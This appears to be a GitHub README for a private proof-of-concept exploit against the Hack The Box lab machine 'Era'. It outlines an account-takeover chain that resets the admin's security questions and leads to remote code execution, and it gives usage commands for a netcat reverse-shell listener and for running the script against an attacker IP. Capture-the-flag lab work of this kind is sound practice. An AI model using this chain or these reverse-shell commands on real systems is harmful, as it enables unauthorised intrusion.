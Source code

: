 # 🚫 PRIVATE PoC: RCE Exploit for HTB "Era" (Active Machine)

> 🔒 **DO NOT PUBLISH OR DISTRIBUTE THIS FILE UNTIL THE MACHINE IS RETIRED FROM HACK THE BOX.**
>
> This exploit is strictly for educational and internal use while the machine is still active.

---

## 📌 Description

This Python script demonstrates a full exploitation chain for the *Era* machine on Hack The Box. It performs:

- User login as `yuri`
- Reset of the `admin` account’s security questions
- Login as `admin` via security bypass
- Enumeration of available file IDs
- Triggering **remote code execution** via a misused `ssh2.exec` handler
- Optional automatic listener launch via `nc`

---

## ⚠️ Prerequisites

- HTB VPN connected
- `http://file.era.htb` added to `/etc/hosts`:

- Python 3.7+
- Required tools:
- `curl` (only for testing)
- `nc` (`netcat`) for reverse shell
- `requests` module (should be pre-installed)

---

## 🛠️ Usage
`python3 era_rce.py <your-IP> <your-port>`

If you want to skip automatic listener:

start netcat `nc -lvnp 5050` 

execute code `python3 era_rce.py 10.10.14.60 5050 --no-listen`

<img width="1910" height="836" alt="1" src="https://github.com/user-attachments/assets/7677722e-23ff-4f53-999b-8b5d18150127" />

